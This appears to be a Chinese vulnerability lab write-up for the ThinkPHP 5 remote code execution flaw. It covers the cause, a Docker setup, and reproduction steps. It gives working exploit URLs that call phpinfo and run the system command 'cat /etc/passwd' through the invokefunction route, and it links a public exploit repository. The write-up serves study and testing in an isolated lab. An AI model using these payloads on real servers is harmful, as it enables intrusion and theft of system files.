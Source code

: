 # ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞

## 漏洞描述

ThinkPHP是一款运用极广的PHP开发框架。其版本5中，由于没有正确处理控制器名，导致在网站没有开启强制路由的情况下（即默认情况下）可以执行任意方法，从而导致远程命令执行漏洞。

参考链接：

- http://www.thinkphp.cn/topic/60400.html
- http://www.thinkphp.cn/topic/60390.html
- https://xz.aliyun.com/t/3570

## 环境搭建

运行ThinkPHP 5.0.20版本：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到ThinkPHP默认启动页面。

## 漏洞复现

直接访问`http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1`，即可执行phpinfo：

![image-20220302150446791](./images/202203021504893.png)

执行系统命令：

```
http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/etc/passwd
```

![image-20220302150508363](./images/202203021505433.png)

## 开源POC/EXP

- https://github.com/sukabuliet/ThinkphpRCE
